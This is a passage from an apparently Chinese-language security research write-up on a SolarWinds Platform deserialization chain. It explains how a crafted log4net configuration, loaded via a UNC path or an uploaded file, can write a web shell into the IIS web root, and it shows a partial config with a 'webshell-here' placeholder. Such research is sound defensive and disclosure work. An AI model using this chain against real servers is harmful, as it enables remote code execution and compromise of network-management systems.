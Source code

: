 ```plain
                try 
                { 
                    XmlDocument xmlDocument = new XmlDocument(); 
                    xmlDocument.Load(fileInfo.FullName); // [4] 
                    XmlNodeList elementsByTagName =  
xmlDocument.GetElementsByTagName("log4net"); // [5] 
                    if (elementsByTagName != null && elementsByTagName.Count > 0) 
                    { 
                        configurations = Log._configurations; 
                        lock (configurations) 
                        { 
                            if (!Log._configurations.Contains(fileInfo.FullName)) 
                            { 
                                XmlConfigurator.ConfigureAndWatch(fileInfo); //  
[6] 
                                Log._configurations.Add(fileInfo.FullName); 
                            } 
                        } 
                    } 
                } 
                catch 
                { 
                } 
            } 
        } 
    } 
}
```

代码段 32 Log.Configure 方法

在\[1\]，代码通过配置文件列表进行迭代。该列表将包含：由输入参数`configFile`定义的路径以及当前进程已加载的其他配置文件。

在\[2\]，从当前路径创建`FileInfo`对象。

在\[3\]，代码检查当前循环迭代中的文件是否已加载。如果是，则调用`continue`，配置文件将不会被加载。如果文件尚未加载，代码流程继续。

在\[4\]，使用`XmlDocument.Load`方法加载配置文件。

在\[5\]，从文件中提取`log4net`标签。

在\[6\]，配置正在加载。

名为 log4net 的标签表明，实际上正在加载新的 log4net 配置（log4net 可以被视为 Java 的 log4j 的等同物）。总的来说，具有反序列化`SolarWinds.IPAM.Storage.Credentials.CredentialInitializer`类的可能性的攻击者可以强制 SolarWinds 进程从文件中加载新的 log4net 配置。

这似乎是一个非常有趣的反序列化小工具，但我们必须考虑如何交付这个文件。我们有两个主要选项：

a) 我们可以提供 UNC 路径，直接从我们的 SMB 服务器加载配置文件。虽然外部 SMB 流量可以被过滤掉，但这样的攻击方法通常在作为位于内部网络的攻击者时有效。由于 SolarWinds Platform 很少暴露在互联网上，我认为这种攻击场景适用于大多数 SolarWinds 实例。

b) 它可以与文件写入基元链接。请注意，路径、扩展名和文件名都未经任何验证，因此我们可以使用合法的文件写入功能（如图像上传）来传递我们的配置文件。

由于 log4net 正在处理日志文件，我开始考虑文件上传基元。我查看了 log4net ，找到了以下配置：

```plain
<log4net> 
    ... 
     <appender name="RollingLogFileAppender" 
type="log4net.Appender.RollingFileAppender"> 
        <file value="C:\inetpub\wwwroot\poc.aspx" /> [1] 
        <encoding value="utf-8" /> 
        <appendToFile value="false" /> 
        <rollingStyle value="Size" /> 
        <maxSizeRollBackups value="5" /> 
        <maximumFileSize value="5MB" /> 
        <layout type="log4net.Layout.PatternLayout"> 
        <header type="log4net.Util.PatternString" value="webshell-here" /> [2] 
        <conversionPattern value="" /> [3] 
```